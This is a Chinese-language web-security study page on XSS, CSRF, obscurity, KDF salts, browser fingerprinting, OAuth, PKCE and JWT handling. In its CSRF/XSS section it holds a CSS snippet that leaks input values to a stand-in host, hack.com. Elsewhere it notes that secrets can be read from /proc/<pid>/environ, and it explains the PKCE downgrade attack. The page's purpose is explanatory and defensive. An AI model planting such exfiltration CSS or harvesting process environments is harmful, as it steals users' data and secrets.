

## 领域

* [Web Crypto API](/maps/_web/browser/crypto) - Web 加密 API
* [国密 SM2](/maps/_web/security/sm2) - 椭圆曲线公钥密码算法标准与工程陷阱
* [HMAC](/maps/_web/security/hmac) - 基于哈希的消息认证码原理与验签工程实践
* [存储介质数据清除](/maps/_web/security/data-sanitization) - 删除与清除分界、GB 46864-2025 强制国标与介质级擦除陷阱
* [天御滑块验证码逆向](/maps/_web/security/tcaptcha-slider-reverse) - TCaptcha 三段式协议取证、缺口识别与求解工程结构

## 安全概念

#### XSS 原理与防范

XSS（Cross Site Scripting）跨站脚本攻击，通过某种方式将非法代码挂载在 URL、或者后端数据中，以达到让浏览器执行的目的。反射型 XSS 和储存型 XSS 都是利用后端返回的非法脚本直接在前端展示，就得到了执行。
DOM-Based XSS 是通过修改源码内容来执行的。比如说，反射型 XSS 可能是一封黑客的邮件，链接参数带上了脚本代码；储存型 XSS 在可视化编辑器中很常见；
DOM-Based XSS 可能是执行了一段 URL Hash 里面拿到的文本。

XSS 可以用来盗取 Cookie、DDos、篡改数据等。防范最基本要做的就是是后端不应该信任前端传来的数据，并且要做好过滤，把字符转义为 HTML 实体。其次是给 Cookie 设上 http-only。

#### CSRF 原理与防范

CSRF（Cross Site Request Forgery）跨站请求伪造，主要原理是黑客利用了用户在敏感站点保持的登录态，在另一个用户访问的网页去伪造敏感站点的请求。

可以使用 CSRF token 方案。每次用户请求 HTML 都在其中设置一个随机的 Token，在请求时带上。

#### CSS Exfiltration 攻击

```css
input[value^=a]{
  background-image: url(http://hack.com/a);
}
```

#### Security through obscurity

系统的安全性若依赖实现细节、算法或配置的保密，就属于 security through obscurity。
一旦这些秘密被反编译、员工离职带走、写进日志或备份泄露，安全边界会瞬间崩塌。
现代密码学遵循 Kerckhoffs 原则：即使除密钥外的一切公开，系统仍应保持安全。

把服务绑在动态高端口但不设鉴权，本质是把“端口未知”当作安全假设。
IPv4 端口空间只有 16 位，本地全端口扫描可在秒级完成；
nmap 默认扫描本地主机只需约 0.2 秒。端口被发现后服务即完全暴露，
因此端口隐藏最多是 defense in depth 的冗余层，不能替代认证机制。

把敏感信息从命令行参数移到环境变量，能消除 shell history 和 ps aux 的泄露，
但并未消除同 uid 进程的风险。Linux 上 /proc/<pid>/environ 记录进程启动时的环境变量，
且对同一用户可读；macOS 上 ps eww <pid> 也能查看。
因此 env 只是“更好的明文传输”，不是安全的秘密存储。

Security through obscurity 不应被完全否定：
隐藏真实攻击面、使用非默认端口、混淆内部结构可以增加攻击者的侦察成本。
但它不能是唯一的防线，必须与密码学、最小权限、审计等机制配合。
一旦把 obscurity 当作根，系统就会因“秘密泄露”而整体崩塌。

见：[Kerckhoffs's principle - Wikipedia](https://en.wikipedia.org/wiki/Kerckhoffs%27s_principle)

#### KDF 的 salt 不是秘密，是域隔离标签

密钥派生函数（scrypt / PBKDF2 / Argon2）里的 salt 不需要保密，它靠「固定且公开」才能工作。
其机制在于域隔离：同一 password 配不同 salt 派生出不同密钥，让不同域的密文跨域不可互解，
防止把 A 域密文搬到 B 域上下文重放。真正的秘密是派生用的 password / 主密钥（通常在 env），
salt 公开的安全性建立在「password 保密」与 KDF 本身抗暴破（scrypt 是 memory-hard）之上。
所以把 salt 放进 env 零收益反而有害：salt 必须稳定，谁误改或丢了这条 env，派生密钥就变了、
历史密文全解不开，等于自毁数据。工程上应让它待在代码里、进 git、改动经 review；结尾的版本号
（如 `:v1`）是版本化域标识，需要轮转该域密钥时升到 v2 并迁移重加密，而非偷改 env。这正是
Kerckhoffs 原则（除密钥外一切公开仍安全）的具体落地。

见：[Salt (cryptography) - Wikipedia](https://en.wikipedia.org/wiki/Salt_(cryptography))

## 用户追踪技术

#### LinkedIn 如何使用浏览器指纹追踪用户？

LinkedIn 被披露使用激进的"用户指纹"技术追踪用户：页面会加载一个包含 **2953 个浏览器插件**的清单，脚本依次检测用户安装了其中哪些插件，以此生成唯一特征码识别用户。这导致访问 LinkedIn 时控制台可能出现上千个报错。
这种追踪方式比传统的 cookie 更隐蔽、更难防范，代表了当前网站用户追踪技术的极端案例。

> #周刊摘录 见：[科技周刊第385期](https://www.ruanyifeng.com/blog/2026/02/weekly-issue-385.html)

## OAuth

#### OAuth 的本质

OAuth 解决的核心问题：**如何让第三方应用在不获取用户密码的情况下代表用户操作**。

这解释了其多层设计——authorization code、access token、refresh token——每一层都是为了在"方便"与"安全"之间取得平衡，而非单纯的身份验证。

#### 授权码流程

OAuth 的复杂性源于一个根本矛盾：
**用户交互必须在浏览器（不安全的 front-channel）完成，而令牌交换必须在服务端（安全的 back-channel）完成**。

| 通道 | 传输方式 | 安全性 | 用途 |
|------|----------|--------|------|
| Front-channel | GET 请求，参数在 URL | 低（可被历史记录、日志泄露） | 用户跳转、传递 authorization code |
| Back-channel | POST 请求，参数在 body | 高（HTTPS 加密） | 交换 access token |

为什么不能用 URL 传 access token？
URL 可能出现在浏览器历史、服务器日志、Referer 头中，导致令牌泄露。
因此引入 authorization code 作为"一次性凭证"，完成前后端的安全接力。

#### 核心术语

- **Resource Owner**：资源所有者（用户）
- **OAuth Client / App**：第三方应用
- **Authorization Server**：授权服务器（用户登录并同意授权的地方）
- **Resource Server**：资源服务器（存储用户数据的地方，可能与授权服务器相同）
- **Scopes**：授权范围（用户同意给予第三方哪些权限）
- **Authorization Code**：授权码（一次性凭证，用于交换 access token）
- **Access Token**：访问令牌（真正的"权限凭证"）
- **Client Secret**：客户端密钥（用于验证第三方应用身份）

#### PKCE

对于纯前端或移动端应用，client secret 无法保密（可被提取或反编译），授权码在回跳路上被截获后，
截获者可以直接去 token 端点兑换。

PKCE（Proof Key for Code Exchange，代码交换的证明密钥）是一个预承诺机制：客户端生成高熵随机串
code_verifier（43~128 个字符，只允许 `A-Z a-z 0-9 - . _ ~`），先随授权请求送出其派生值 code_challenge，
交换 token 时才交出 verifier 原像，授权服务器校验 SHA256(verifier) 与 challenge 一致后才签发 token。
verifier 只存在于发起方内存、从不出现在授权请求里，截获 code 者拿不到 verifier 就换不出 token：

1. 客户端生成临时密钥对（code verifier + code challenge）
2. 授权请求时发送 code challenge
3. 交换 token 时验证 code verifier



截获者拿 code 换不出 token 的机制是通道不对称：code 走前通道（front channel，授权回跳 URL，途经浏览器、
URL scheme 与日志，防护最弱）；verifier 走后通道（back channel，客户端到 token 端点的 TLS 直连），
全程只在这里出现一次。没有 PKCE 时公共客户端的 token 请求是 code 单票，服务器认票不认人；
PKCE 就是给票据加兑付条件：出票绑 challenge，兑付出示原像，verifier 既没在截获位置出现过、
SHA256 又不可逆，编造不出来。

这是**零信任架构**在 OAuth 中的早期实践——不依赖持久化 secret，每次授权独立验证。
RFC 9700 已把 PKCE 升级为所有客户端（含机密客户端）的强制要求，OAuth 2.1 草案将 RFC 7636 收编进核心规范。

见：[RFC 7636: Proof Key for Code Exchange](https://www.rfc-editor.org/rfc/rfc7636)

#### PKCE 降级攻击：把 PKCE 当可选项等于没有

授权服务器支持 PKCE 但实现成「授权请求带 code_challenge 就校验、不带就放行」时，攻击者可以把客户端
授权请求里的 code_challenge 参数剥掉再提交，服务器照常签发无需 PKCE 的授权码，截获后顺利兑换。
这是 RFC 9700 §4.8 写明全流程的 PKCE 降级攻击（PKCE Downgrade Attack），两个前提：服务器把 PKCE 当可选项、
客户端不校验 state。对应的强制条款：token 请求携带 code_verifier、但当初授权请求里没有 code_challenge 的，
必须直接拒绝。服务器侧 PKCE 必须无条件强制，不能做成「来了就验、不来就算」的礼貌选项。

见：[RFC 9700 §4.8 PKCE Downgrade Attack](https://www.rfc-editor.org/rfc/rfc9700#section-4.8)

#### plain 挑战方法：challenge 走日志等于裸奔

plain 模式下 code_challenge 就是 code_verifier 本身，而授权请求 URL 会进浏览器历史、授权服务器日志与
反向代理日志，等于把兑换凭证写进所有日志。S256 是唯一让 verifier 不暴露于授权请求的变换——哈希不可逆，
日志里的 challenge 换不出 token。RFC 7636 规定 plain 仅限「因技术原因无法支持 S256 且带外确认服务器支持」
的客户端使用，实践中这个前提几乎不存在，RFC 9700 明言 S256 是当前唯一认可的方法。
看到还在演示 plain 方法的库或文档，视为过期产物。

见：[RFC 7636 §4.2 Code Challenge](https://www.rfc-editor.org/rfc/rfc7636#section-4.2)

#### state 防 CSRF 靠什么：不可预测随机 + 服务端一次性比对

state 参数防的 CSRF 特指授权码注入（login CSRF）：攻击者想让受害者浏览器用攻击者搞到的授权码
完成回调，使受害者会话被绑到攻击者身份，后续操作全落进攻击者账号。防住它的不是随机数本身，
而是随机数参与的协议闭环——发起授权时生成随机 state 存进服务端中间态，随 authorize 请求发出，
授权服务器原样回传，回调时拿它比对中间态并即刻删除（一次性），比对不上就拒绝；攻击者无法凭空
构造出能通过比对的回调。基石是 state 必须来自 CSPRNG（如 crypto.randomBytes）：不可预测、
无法据已见值反推。不能用 Math.random()——V8 用 xorshift128+，观测几个输出即可反推内部状态、
预测后续全部值，等于可预测。state 与 PKCE verifier 分工：state 防 CSRF（证明回调对应本流程
自己发起的授权），PKCE 防授权码窃听（code 泄漏也无 verifier 换不出 token），两条正交防线缺一不可。
存储形态上「服务端中间态 Map + 一次性删除」挡的是捏造 / 重放不存在的 state；RFC 6749 §10.12 的
标准做法还把 state 绑进浏览器 cookie，回调比对 URL 与 cookie 中的 state，可再防「攻击者自己
走完授权、截下未消费的回调注入受害者」的边角（攻击者无法在受害者浏览器种下匹配 cookie）。

见：[RFC 6749 §10.12 Cross-Site Request Forgery](https://www.rfc-editor.org/rfc/rfc6749#section-10.12)

#### OIDC

OpenID Connect（OIDC）是构建在 OAuth 2.0 之上的身份验证层。

这种设计遵循**单一职责原则**：
- OAuth 只做授权（authorization）
- OIDC 只做身份验证（authentication）

两者可独立使用，也可组合。层叠设计比"大而全"的单一协议更具灵活性和可维护性。

#### JWT 的 sub 校验只能在后端做

`sub`（Subject）是 JWT payload 里标识 token 主体的注册声明，通常装用户 id，在签发方上下文中唯一。

前端可以 base64 解码 payload 看到 `sub`，却无法验证签名，因此读到的 `sub` 可能是伪造的。
真正的 `sub` 校验——存在性、把 `sub` 解析成具体身份、查该用户是否被禁用或 token 是否被吊销——
必须在验签之后进行，只有持有签名密钥的后端能做。

所以前端拿到的 `sub` 只能用于展示，不能作为鉴权依据；鉴权决策永远以服务端验签后的结果为准。

见：[RFC 7519 §4.1.2](https://datatracker.ietf.org/doc/html/rfc7519#section-4.1.2)

#### Opaque Token：前端不解析 JWT

一种稳妥的接入模式是把 access token 当不透明（opaque）字符串：
前端只负责存储和在 `Authorization` 头传递，从不解码 payload。

用户身份通过后端接口（如"获取当前用户"）或换取 token 时响应里平铺的字段获取——
后端早已把 `sub` 解码出来单独返回，前端无需也不应自己抠 JWT。

职责划分因此清晰：前端管 token 的"存和传"，后端管 token 的"验和信"，签名密钥永远不出后端。
即使 access token 本身是 JWT，前端也按 opaque 方式使用，避免把不可信的 payload 当依据。

见：[Opaque token vs JWT](https://blog.logto.io/opaque-token-vs-jwt)

#### 安全设计原则

OAuth 的每一处复杂性都对应一个安全威胁：

- **Redirect URI 白名单**：防止授权码被劫持到其他域名
- **Client Secret 验证**：确保只有注册的客户端能换取 token
- **Authorization Code 一次性使用**：防止重放攻击
- **State 参数**：防止 CSRF 攻击（跨站请求伪造）

见：[An Illustrated Guide to OAuth](https://www.ducktyped.org/p/an-illustrated-guide-to-oauth)

## 供应链安全

* [软件供应链安全](/maps/_web/security/supply-chain)：开源软件生态中的传递性信任问题与供应链攻击防范

